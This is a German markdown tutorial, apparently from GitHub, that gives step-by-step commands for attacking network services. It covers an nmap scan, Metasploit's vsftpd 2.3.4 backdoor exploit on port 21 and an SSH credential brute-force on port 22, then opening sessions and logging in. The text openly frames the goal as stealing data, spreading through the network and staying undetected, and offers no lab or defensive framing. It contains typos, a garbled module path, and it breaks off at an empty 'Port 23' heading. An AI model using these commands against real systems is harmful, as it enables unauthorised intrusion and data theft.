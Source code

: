 Exploit Ports:
Um einen Port zu exploiten muss man zuerst wissen welchen Port man angreift. Dazu wird ein Portscan benötigt um zu sehen welche Ports offen sind.

``sudo nmap -p- -sV -O {IP-Adresse des Ziels}``

<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134978753-2b5510e8-7742-43e4-bd08-337c6fb5103f.png" alt="PStatus Serie" width="600" height="250">

  
 <h2>Port 21:</h2>

``service postgresql start`` <br>
``service postgresql status``
  
Danach wird ein Passwort verlangt

<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134168995-94cda790-8dd0-4b10-aa4d-6c21b3ead126.png" alt="PStatus Serie" width="600" height="250">
  
  
Danach öffnet man die "msf console": ``msfconsole``
  
In dieser Konsole sucht man nach einem Exploit für diese Version:
  
 ``search vsftpd 2.3.4``
 So sieht es aus wenn ein Exploit existiert:
<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134171809-b1af4e1a-e66e-42e8-a819-9b2ee5c7ad60.png" alt="PStatus Serie" width="600" height="250">

``loit/unix/ftp/vsftpd_234_backdoor`` <br>
``use exploit loit/unix/ftp/vsftpd_234_backdoor``
  
``show options``

<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134179000-68e9e466-7846-439e-991a-19a5aa512d45.png" alt="PStatus Serie" width="700" height="150">

Hier sieht an wie die Konfuguration aussieht. Man Merkt recht schnell das man noch die IP adresse des Host eintragen muss, damit man den Port 21 exploiten kann.
  
``set RHOST <IP-Adresse des Ziels>``
  
 Danach kontrolieren mit: ``show options``
  
 Danach kann an einfah den Comand ``exploit`` absetzen:
 
   <img style="float: left" src="https://user-images.githubusercontent.com/57325335/134179776-3da11699-69f9-4046-9d4c-dee49130c2b9.png" alt="PStatus Serie" width="600" height="250">
  
Da man nun im System ist kann man mit Befehlen wie ``WHOAMI`` oder ``$HOME`` sich auf dem Zielsystem umshehen, Daten klauen und seinen Zugrif auf andere Geräte im Netzwerk erweitern. 

<h2>Port 22:</h2>

Als erstes verbindet man sich it der Metasploitdatenbank. Für diese Aktion brauch man root Privilegien.
``service postgresql start`` <br>
``service postgresql status``

Danach öffnet man wieder die "msf console": ``msfconsole``


``use auxiliary/scanner/ssh/ssh_login``
Als nächstes kann man sich die Optionen anzeigen lassen: ``show options``

Wichtig den "rhost" zu setzen mit der IP-Adresse die man Angreiffen möchte.
``set rhosts IP-Adresse des Ziels``
<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134676800-d95a590a-606b-4ac2-9cf1-c73845384637.png" alt="PStatus Serie" width="620" height="70">

``set VERBOSE true``
Dieser Coammand sagt aus bei erfolgreichem erraten der Login Credentials wird der angrif abgebrochen.
``set STOP_ON_SUCCESS true``

Hier gibt man das file an wo sie die namen der möglichen User befinden.
``set USER_FILE Desktiop/Name_des_Files``

<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134680053-3fe24806-1f11-435f-9bb6-67fc5bf6abb6.png" alt="PStatus Serie" width="150" height="125">

Hir gibt man das file an wo sie das File mit den Passwörtern befindet.
``set PASS_FILE Desktiop/name_des_Files``

<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134680122-384e9f39-cf69-46c4-b8a6-f924ad5e7e4f.png" alt="PStatus Serie" width="150" height="125">


Mit run startet man die Bruteforce attacke: ``run``

Das grüne Plus signalisiert das es geklappt hat und die Bruteforce Attacke erfolgteich war:
<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134681537-269891ce-d433-4cc4-97bd-5856a86a01a5.png" alt="completed attacke" width="670" height="250">

Mit folgendem Command kann eine Session mit den Ziel Aufgebaut werden. 
``sessions -i 1``

Mit dieser Session kann man alle möglichen Informationen über das Zielsystem herausfinden und seinen Zurgriff im Netzwerk erweitern oder Daten stehlen:

 <img style="float: left" src="https://user-images.githubusercontent.com/57325335/134683131-31681483-ce4f-45de-868f-6c3a52d6d647.png" alt="PStatus Serie" width="500" height="110">

Falls dein Eindringen unbemerkt bleibt und das Passwort oder der Username nicht geändert wird, kannst du dich einfach per ssh mit dem Zielsystem verbinden.
``ssh username@IP-Adresse_des_Ziels``


 <h2>Port 23:</h2>
 
 
